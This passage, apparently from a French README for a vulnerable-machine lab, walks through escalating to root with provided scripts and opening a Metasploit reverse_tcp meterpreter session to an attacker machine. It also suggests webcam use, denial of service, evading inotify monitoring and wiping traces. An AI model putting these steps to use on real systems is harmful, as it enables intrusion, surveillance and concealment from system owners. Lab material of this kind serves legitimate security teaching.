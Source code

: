 Pour exploiter pleinement les potentiels de cette faille, on peut consulter les données sensibles du véritable administrateur et les récupérer, s'ajouter en SSH ou effectuer toute autre action permettant d'avoir un accès distant (Remote) sur la cible. De plus, on lance le payload reverse_tcp en tant que root pour établir une session meterpreter à distance depuis sa machine, ce qui permet ensuite de lancer d'autres attaques avec Metasploit comme l'utilisation de la webcam, la création d'un déni de service, ou encore la suppression du véritable administrateur du groupe sudo. Si on veut passer inaperçu, on peut limiter certaines actions le temps qu'il s'en aperçoive. On peut aussi essayer de vérifier s'il a mis en place des mécanismes de surveillance avec des démons comme inotify ou autres, et les limiter, voire les arrêter.

Pour cette démonstration, une fois la session meterpreter établie entre l'attaquant et la cible, on télécharge un fichier depuis la cible vers la machine distante, le modifie depuis la machine d'attaque, et le renvoie sur la cible. Pour éviter de laisser des traces, on nettoie les fichiers/modifications.


### 2.2.4 Action de l'attaquant sur la cible

* Utiliser msfvenom pour créer un payload reverse_tcp à exécuter sur la machine cible, recuperer le code de l'exploit sur github et compiler. 

Les codes et les payloads reverse_tcp sont déjà disponibles pour les utilisateurs, il y'a rien à faire.

* Lancer l'exploit pour passer en root : 
Ouvrir deux terminaux.

Se tenir sur l'utilisateur vulnUser1 dans le deux terminaux:  `su vulnUser1`, il faut renseigner le mot de passe "vulnUser1". Puis `cd execs`. Lancer le script `./vulnUser1_attack.sh`. Si l'attaque n'aboutit pas rapidemment il faut lancer le script dans le deuxieme terminal en parallèle ou meme les arreter et les relancer. Une foit l'exploitation de la faille reussie, on est en root. Lancer `./use_exploit.sh IP_machine_distante` pour exploiter la faille et se connecter sur la machine d'attaque.

**Attention** l'exploitation de la faille n'est possible qu'une seule fois par utilisateur.


## 2.3 Sur la machine d'attaque
* Vérifier la session et les privilèges si reverse_tcp reussi.

`meterpreter > shell`

Si le shell ne repond pas faire `python3 -c 'import pty; pty.spawn("/bin/bash")'`

* Verifier la session obtenue

`meterpreter > getuid`
 
* Sortir de la session sans l'arreter

`meterpreter > background`  

* Voir les sessions Meterpreter

`msf6 > sessions`    

* Se connecter à une session

`msf6 > sessions -i N°_session`    
